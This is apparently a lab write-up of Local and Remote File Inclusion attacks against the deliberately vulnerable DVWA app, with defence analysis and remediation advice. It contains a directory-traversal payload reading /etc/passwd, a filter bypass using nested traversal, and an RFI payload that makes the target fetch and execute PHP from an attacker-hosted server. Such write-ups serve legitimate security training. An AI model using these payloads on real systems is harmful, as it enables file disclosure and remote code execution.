# Cybersecurity: DVWA File Inclusion (LFI & RFI) Vulnerability Analysis

## Table of Contents
- [Introduction to DVWA](#-introduction-to-dvwa)
- [Project Overview](#-project-overview)
- [Objective](#-objective)
- [Lab Environment Architecture](#️-lab-environment-architecture)
- [Phase 1: Authentication & Setup](#phase-1-authentication--setup)
- [Phase 2: Local File Inclusion (LFI) Assessment](#phase-2-local-file-inclusion-lfi-assessment)
  - [Exploitation (Low Security)](#lfi-exploitation-low-security)
  - [Defense Analysis (Medium, High, & Impossible)](#lfi-defense-analysis)
- [Phase 3: Remote File Inclusion (RFI) Assessment](#phase-3-remote-file-inclusion-rfi-assessment)
  - [Exploitation (Low Security)](#rfi-exploitation-low-security)
  - [Defense Analysis (Medium, High, & Impossible)](#rfi-defense-analysis)
- [Security Impact & Remediation](#-security-impact--remediation)
- [Ethical Guidelines & Disclaimer](#️-ethical-guidelines--disclaimer)

---

## Introduction to DVWA
The **Damn Vulnerable Web Application (DVWA)** is a PHP/MySQL web application intentionally designed to be highly vulnerable. Its primary goal is to serve as an aid for security professionals, penetration testers, and developers to test their skills and tools in a legal, controlled environment. 

By practicing on DVWA, security engineers can safely explore the most common web vulnerabilities across various levels of difficulty, ultimately gaining a deeper understanding of how these vulnerabilities manifest through bad coding practices and how to properly secure web applications against them.

## Project Overview
This project documents a comprehensive vulnerability assessment focusing specifically on two distinct inclusion vectors: **Local File Inclusion (LFI)** and **Remote File Inclusion (RFI)**. 

This lab systematically tests how poorly sanitized user input in PHP `include()` functions can be exploited by an attacker to read sensitive local system files (LFI) or execute malicious remote code (RFI). The assessment analyzes the application's underlying PHP source code behavior across escalating security tiers (Low, Medium, High, and Impossible) to evaluate the effectiveness of various defensive coding mechanisms for each specific vector.

## Objective
To successfully exploit LFI and RFI vulnerabilities in a controlled environment. The goal is to demonstrate the exfiltration of highly sensitive system files (e.g., `/etc/passwd`), achieve remote code execution via a custom-hosted external payload, and meticulously document how server-side input filtering attempts to mitigate these attacks across different security postures.

## Lab Environment Architecture
*   **Attacker Machine:** Kali Linux
*   **Vulnerable Web Target (DVWA):** `192.168.109.129`
*   **Malicious Payload Host (RFI Server):** Windows Server 2022 (`192.168.109.133`)
*   **Web Technologies Stack:** PHP, Apache, MySQL

---

## Phase 1: Authentication & Setup
**Objective:** To establish an authenticated session with the DVWA target and access the vulnerability modules.

**Methodology:**
Accessed the DVWA login portal via the local laboratory network and authenticated using administrative credentials. Navigated to the "DVWA Security" tab to configure the environment's security posture for each phase of the assessment.

**Result / Evidence:**
 




---

## Phase 2: Local File Inclusion (LFI) Assessment
**Overview:** Local File Inclusion occurs when an application includes a file that exists on the local web server. If input is not sanitized, an attacker can use directory traversal characters (`../`) to view sensitive files outside the web root directory.

### LFI Exploitation (Low Security)
*   **Methodology:** In the Low security setting, the PHP script accepts the `page` parameter without any input validation or sanitization.
*   **Payload Executed:** `?page=../../../../../../../etc/passwd`
*   **Observation:** The Directory Traversal payload successfully escaped the web root directory (`/var/www/html`) and navigated to the base Linux filesystem. The application executed the include function, dumping the contents of the highly sensitive `/etc/passwd` file directly to the web browser. This exposed all local user accounts, including the `root` account and the custom `RootCipherX` user profile.

**Result / Evidence:**
 




### LFI Defense Analysis
To understand secure coding practices, LFI payloads were tested against escalating security controls.

**1. Medium Security (Blacklisting)**
*   **Mechanism:** The application attempts to block LFI by using `str_replace()` to strip `../` from the user input.
*   **Observation:** The standard traversal payload fails and returns a blank page because the required characters are deleted. *(Note: This is insecure, as attackers can bypass it using nested traversals like `....//`).*



**2. High Security (Pattern Matching)**
*   **Mechanism:** The application utilizes `fnmatch()` to enforce a strict pattern match. The input *must* start with the exact string `file` or the inclusion is blocked.
*   **Observation:** The application successfully stops the standard LFI attack, returning an `ERROR: File not found!` message.



**3. Impossible Security (Secure Baseline)**
*   **Mechanism:** The application abandons dynamic file inclusion entirely, utilizing a strict, hardcoded **Whitelist**. The `?page=` parameter must match a predefined static array. 
*   **Observation:** The LFI attack is entirely neutralized. This is the industry-standard secure configuration.



---

## Phase 3: Remote File Inclusion (RFI) Assessment
**Overview:** Remote File Inclusion occurs when an application dynamically includes an external file hosted on a remote server. This is inherently more dangerous than LFI, as it immediately leads to arbitrary Remote Code Execution (RCE).

### RFI Exploitation (Low Security)
*   **Methodology:** To demonstrate a true RFI attack, I provisioned a dedicated Windows Server 2022 instance (`192.168.109.133`) functioning strictly as the attacker's payload delivery server. I created a custom PHP payload (`f1.php`) designed to execute and display a persistent message.
*   **Payload Executed:** `?page=http://192.168.109.133/web/f1.php`
*   **Observation:** Because the target server's `allow_url_include` PHP configuration was enabled and input was unsanitized, the target fetched the remote file from the Windows Server and executed its contents locally. 

**Result / Evidence:**
 


*(Note the successful execution of the custom Dhananjay Deshpande @RootCipherX payload hosted on the external Windows Server, proving RCE!)*

### RFI Defense Analysis
RFI requires different bypass mechanisms than LFI, analyzed below.

**1. Medium Security (Blacklisting)**
*   **Mechanism:** The PHP `str_replace()` function strips out `http://` and `https://` from the input.
*   **Observation:** The RFI payload fails because the HTTP protocol handler is removed, breaking the external URL. 


**2. High Security (Pattern Matching)**
*   **Mechanism:** The `fnmatch()` function forces the input to begin with `file`. 
*   **Observation:** Because an external URL must begin with `http://` or `ftp://`, the RFI payload is immediately rejected, returning an error.


**3. Impossible Security (Secure Baseline)**
*   **Mechanism:** Strict whitelisting completely eliminates the possibility of passing an external URL to the include function.
*   **Observation:** The RFI attack is entirely neutralized.


---

## Security Impact & Remediation

**Security Impact:**
*   **LFI (Local File Inclusion):** Allows attackers to read sensitive configuration files (e.g., `wp-config.php`), access system password hashes (if permissions allow), or achieve Remote Code Execution via Log Poisoning (injecting PHP code into Apache access logs and including the log file).
*   **RFI (Remote File Inclusion):** Leads to immediate, critical Remote Code Execution (RCE) and total server compromise by allowing the attacker to run arbitrary code on the host.

**Recommended Remediation:**
1.  **Disable Remote Inclusion:** Ensure `allow_url_include = Off` in the `php.ini` configuration file to permanently prevent RFI attacks at the server level.
2.  **Enforce Strict Whitelisting:** Never pass raw, unsanitized user input directly to filesystem APIs (`include`, `require`, `fopen`). Use strict arrays/whitelists to map user input to internal files.
3.  **Directory Jailing:** Configure `open_basedir` in PHP to restrict file operations strictly to the designated web root directory, mitigating LFI directory traversal attacks.

---

## ⚖️ Ethical Guidelines & Disclaimer
This vulnerability assessment was conducted entirely within a private, self-hosted, and isolated Virtual Machine laboratory network. The target machine (DVWA) is intentionally designed with insecure coding practices to serve as a safe environment for educational research and web application penetration testing. All traffic generation, exploitation, and payload hosting were performed strictly for defensive cybersecurity training purposes.
